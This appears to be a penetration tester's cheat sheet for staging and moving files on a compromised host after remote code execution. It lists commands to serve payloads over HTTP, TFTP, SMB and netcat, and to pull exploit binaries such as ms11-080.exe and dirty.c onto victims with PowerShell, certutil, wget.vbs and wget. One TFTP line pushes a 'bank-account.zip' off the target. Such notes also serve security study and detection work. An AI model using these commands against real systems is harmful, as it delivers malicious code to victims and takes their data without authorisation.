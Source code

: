 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```
sudo service apache2 start
/var/www/html
wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp
cd /tftp touch incoming chmod 777 incoming
tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/
Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```

#### FTP


# Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








#### Windows lol
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
